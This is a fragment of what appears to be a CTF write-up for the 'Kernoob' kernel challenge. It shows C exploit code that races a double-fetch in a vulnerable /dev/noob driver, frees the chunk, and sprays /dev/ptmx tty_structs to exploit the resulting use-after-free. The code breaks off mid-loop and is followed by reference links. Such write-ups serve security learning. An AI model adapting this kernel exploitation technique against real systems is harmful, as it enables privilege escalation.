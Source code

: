 ```C
    struct noob arg;
    arg.index = index;
    arg.ptr = point;
    arg.size = size;
    ioctl(fd, EDIT, &arg);
}

void show(int fd, unsigned long index, void* point, unsigned long size){
    struct noob arg;
    arg.index = index;
    arg.ptr = point;
    arg.size = size;
    ioctl(fd, SHOW, &arg);
}

int end = 0;
void* dou_fet(void *args){
    struct noob *tmp = (struct noob *)args;
    while(1){
        if (end == 1)
            break;
        tmp->size = 0x2e0; //size of tty_struct
    }
}

unsigned long data[0x20];
struct noob race = {0};

int main() {
    save_status();
    
    int fd = open("/dev/noob", 2);
    if (fd < 0){
        perror("open");
        exit(0);
    }
    
    pthread_t tid;
    printf("pthread create\n");
    if (pthread_create(&tid, NULL, dou_fet, (void *)&race) < 0){
        perror("pthread");
        exit(0);
    }
  
    while(1){
        race.size = 0;
        if (ioctl(fd, ADD, &race) == 0){
            printf("double_fetch\n");
            end=1;
            break;
        }

    }

    delete(fd, 0);

    int tty_fd[0x20], uaf_fd;
    for(int i=0;i<0x20;i++){
        tty_fd[i] = open("/dev/ptmx", O_RDWR);
    }
    printf("seeking uaf fd\n");
    for(int i=0;i<0x20;i++){
        show(fd, 0, (void*)data, 0x20);
```

  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png